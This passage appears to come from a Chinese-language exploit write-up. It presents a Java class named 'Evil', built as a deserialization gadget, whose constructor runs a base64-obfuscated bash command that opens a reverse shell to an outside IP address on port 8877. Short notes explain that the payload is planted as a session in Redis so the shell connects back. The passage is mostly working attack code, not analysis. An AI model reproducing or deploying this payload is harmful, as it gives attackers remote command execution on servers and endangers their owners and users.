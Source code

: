 ## exp 编写

```plain
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
public class Evil extends AbstractTranslet {
public void transform(DOM document, SerializationHandler[] handlers) t
hrows TransletException {}
public void transform(DOM document, DTMAxisIterator iterator, Serializ
ationHandler handler) throws TransletException {}
public Evil() throws Exception {
Process p = null;
try {
Runtime.getRuntime().exec("bash -c {echo,YmFzaCAtaSA+Ji9kZXYvd
GNwLzEwMy4xNDguMjQ0LjE1MS84ODc3IDA+JjE=}|{base64,-d}|{bash,-i}");
p.waitFor();
} catch (Exception e) {
e.printStackTrace();
}
}
}
```

在 redisdb 中写入 session

[![](assets/1699257095-3c27d4d19adbe4a89783ec38eeb45e42.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231103214918-c8969df8-7a4f-1.png)

然后使用 bash 进行反弹 shell。

[![](assets/1699257095-9fca3b2993d882d34ee6ed75bd69aad0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231103214924-cc530cec-7a4f-1.png)

